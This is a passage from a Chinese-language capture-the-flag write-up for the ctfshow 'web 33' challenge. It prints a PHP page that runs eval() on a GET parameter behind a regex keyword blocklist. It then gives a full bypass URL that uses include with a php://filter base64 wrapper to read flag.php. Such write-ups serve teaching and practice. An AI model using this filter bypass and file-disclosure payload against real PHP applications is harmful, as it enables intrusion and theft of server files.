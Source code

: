 ```php
$flag="ctfshow{92d10e61-185f-4558-980c-ed5cb229e4d7}";

```

***

## <mark style="color:blue;background-color:orange;">（5）web 33</mark>

<figure><img src="../.gitbook/assets/image 14.png" alt=""><figcaption></figcaption></figure>

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

可以发现我们上一题的方法除了引号，都可以不变，引号也可以不写没有影响。

所以得到最后的php代码是

```PHP
http://69702ce9-0872-49d2-82f6-330bd7fa2948.challenge.ctf.show/?c=include$_GET[url]?>&url=php://filter/read=convert.base64-encode/resource=flag.php
```
